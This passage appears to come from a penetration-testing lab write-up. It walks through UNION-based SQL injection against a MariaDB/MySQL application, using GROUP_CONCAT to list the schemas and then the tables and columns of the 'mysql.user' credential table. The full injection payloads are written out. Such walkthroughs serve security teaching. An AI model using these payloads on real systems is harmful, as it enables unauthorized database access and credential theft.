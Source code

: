 Currently we are only using one field to retreive data, and one piece of data per query. In order to speed things up, we can extract multiple entries in the database by using the GROUP\_CONCAT function. For more information on this, see the following page:

{% embed url="https://mariadb.com/kb/en/group_concat" %}

The query for this is as follows:

> 99 UNION SELECT NULL,NULL,(SELECT GROUP\_CONCAT(SCHEMA\_NAME) FROM INFORMATION\_SCHEMA.SCHEMATA),NULL,NULL,NULL,NULL

Below are the results:

![](../../.gitbook/assets/14.JPG)

There are 4 databases, namely: hotel, information\_schema, mysql, performance\_schema

Let's focus on the "mysql" database for now, and if we need to we could always repeat the next steps for each database we are interested in.

#### Determine tables in "mysql" database

The query is as follows:

> 99 UNION SELECT NULL,NULL,(SELECT GROUP\_CONCAT(TABLE\_NAME) FROM INFORMATION\_SCHEMA.TABLES WHERE TABLE\_SCHEMA="mysql"),NULL,NULL,NULL,NULL

The results:

![](<../../.gitbook/assets/15 (1) (1).JPG>)

Of the tables listed, the one I'm interested in is the "user" table.

#### Determine columns in "user" table in "mysql" database

The query is as follows:

> 99 UNION SELECT NULL,NULL,(SELECT GROUP\_CONCAT(COLUMN\_NAME) FROM INFORMATION\_SCHEMA.COLUMNS WHERE TABLE\_SCHEMA="mysql" AND TABLE\_NAME="user"),NULL,NULL,NULL,NULL

The results:

![](../../.gitbook/assets/16.JPG)
